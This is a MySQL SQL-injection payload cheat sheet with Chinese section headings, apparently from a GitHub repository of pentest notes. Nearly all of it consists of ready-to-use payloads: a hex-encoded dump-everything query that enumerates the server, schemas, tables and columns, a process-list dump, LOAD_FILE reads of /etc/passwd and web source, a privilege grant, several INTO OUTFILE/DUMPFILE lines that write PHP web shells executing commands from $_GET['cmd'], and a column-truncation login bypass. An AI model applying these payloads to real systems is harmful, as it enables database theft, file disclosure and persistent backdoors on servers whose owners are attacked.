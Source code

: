 	+/*!13337concat*/(0x3c616464726573733e3c63656e7465723e3c62723e3c68313e3c666f6e7420636f6c6f723d22526564223e496e6a6563746564206279204e315a344d3c2f666f6e743e3c68313e3c2f63656e7465723e3c62723e3c666f6e7420636f6c6f723d2223663364393361223e4461746162617365207e3e3e203c2f666f6e743e,database/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643936223e56657273696f6e207e3e3e203c2f666f6e743e,@@version,0x3c62723e3c666f6e7420636f6c6f723d2223306637363964223e55736572207e3e3e203c2f666f6e743e,user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643365223e506f7274207e3e3e203c2f666f6e743e,@@port,0x3c62723e3c666f6e7420636f6c6f723d2223346435613733223e4f53207e3e3e203c2f666f6e743e,@@version_compile_os,0x2c3c62723e3c666f6e7420636f6c6f723d2223366134343732223e44617461204469726563746f7279204c6f636174696f6e207e3e3e203c2f666f6e743e,@@datadir,0x3c62723e3c666f6e7420636f6c6f723d2223333130343362223e55554944207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223363930343637223e43757272656e742055736572207e3e3e203c2f666f6e743e,current_user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223383432303831223e54656d70204469726563746f7279207e3e3e203c2f666f6e743e,@@tmpdir,0x3c62723e3c666f6e7420636f6c6f723d2223396336623934223e424954532044455441494c53207e3e3e203c2f666f6e743e,@@version_compile_machine,0x3c62723e3c666f6e7420636f6c6f723d2223396630613838223e46494c452053595354454d207e3e3e203c2f666f6e743e,@@CHARACTER_SET_FILESYSTEM,0x3c62723e3c666f6e7420636f6c6f723d2223393234323564223e486f7374204e616d65207e3e3e203c2f666f6e743e,@@hostname,0x3c62723e3c666f6e7420636f6c6f723d2223393430313333223e53797374656d2055554944204b6579207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223613332363531223e53796d4c696e6b20207e3e3e203c2f666f6e743e,@@GLOBAL.have_symlink,0x3c62723e3c666f6e7420636f6c6f723d2223353830633139223e53534c207e3e3e203c2f666f6e743e,@@GLOBAL.have_ssl,0x3c62723e3c666f6e7420636f6c6f723d2223393931663333223e42617365204469726563746f7279207e3e3e203c2f666f6e743e,@@basedir,0x3c62723e3c2f616464726573733e3c62723e3c666f6e7420636f6c6f723d22626c7565223e,(/*!13337select*/(@a)/*!13337from*/(/*!13337select*/(@a:=0x00),(/*!13337select*/(@a)/*!13337from*/(information_schema.columns)/*!13337where*/(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=/*!13337concat*/(@a,table_schema,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,table_name,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,column_name,0x3c62723e))))a))+

	(select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
  ##### 当前查询
  	该表可以列出 DB 目前正在执行的所有操作
	union SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #

	一条语句导出此表内容
	union select 1,(select(@)from(select(@:=0x00),(select(@)from(information_schema.processlist)where(@)in(@:=concat(@,0x3C62723E,state,0x3a,info))))a),3,4 #
  ##### 读取文件内容
  	filepriv
	' UNION ALL SELECT LOAD_FILE('/etc/passwd') --
	UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
	GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
  ##### 写shell
  	[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
	[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
	[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
	[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'

	[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
	[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
  ##### 截断
  	在 MYSQL 中“ admin ”和“ admin”是一样的。如果数据库中的用户名列有字符限制，则其余字符将被截断。因此，如果数据库的列限制为 20 个字符，并且我们输入一个包含 21 个字符的字符串，那么最后 1 个字符将被删除。
	`username` varchar(20) not null
	payload：username = "admin a"
  ##### 快速查询
  	MySQL >= 5.7.22
	group_concat() = 1024 个符号
	json_arrayagg() > 16,000,000 个符号